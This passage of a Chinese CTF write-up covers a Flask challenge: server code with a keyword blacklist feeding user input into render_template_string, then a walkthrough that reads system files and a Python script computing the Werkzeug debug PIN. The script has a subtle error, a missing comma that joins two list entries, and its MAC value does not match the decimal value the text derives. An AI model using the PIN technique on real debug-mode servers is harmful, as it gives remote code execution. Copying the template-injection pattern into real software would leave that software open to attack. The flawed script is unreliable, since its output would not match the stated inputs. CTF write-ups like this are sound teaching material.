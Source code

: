 ```python
                         'global', 'init', '/','00', 'chr', 'value', 'get', "url", 'pop', 'import',
                         'include','request', '{{', '}}', '"', 'config','=']
            for i in blacklist:
                if i in answer:
                    answer = "⑨" +"""</br><img src="static/woshibaka.jpg" width="300" height="300" alt="Cirno">"""
                    break
            if answer == '':
                return "你能告诉聪明的⑨, 1+1的answer吗"
            return render_template_string("1+1={}".format(answer))
        else:
            return render_template('mathclass.html')

    else:
        session['admin'] = 0
        return "你真的是我的马斯塔吗？"


if __name__ == '__main__':
    CuteCirno.run('0.0.0.0', 5000, debug=True)
```
可以任意文件读取、flask存在debug、python3.8，直接想到了算pin码
读取`/sys/class/net/eth0/address`
![](https://img-blog.csdnimg.cn/055bd4c7f3af401cbf924321e41d9cd3.png)

转为10进制为2485378154512
machine_id为`/etc/machine-id`+`/proc/self/cgroup`
![](https://img-blog.csdnimg.cn/925ff6f1f6c54e63870c87e7c6019390.png)

最后python3.8生成pin码的脚本如下：
```python
#sha1
import hashlib
from itertools import chain

probably_public_bits = [
    'app'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到
]

private_bits = [
    '2485378154499',
	'7265fe765262551a676151a24c02b7b66b3ae4a10d09c99200a38b17919de5b5fd6980b35b551205233dcc08987ac315'
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
```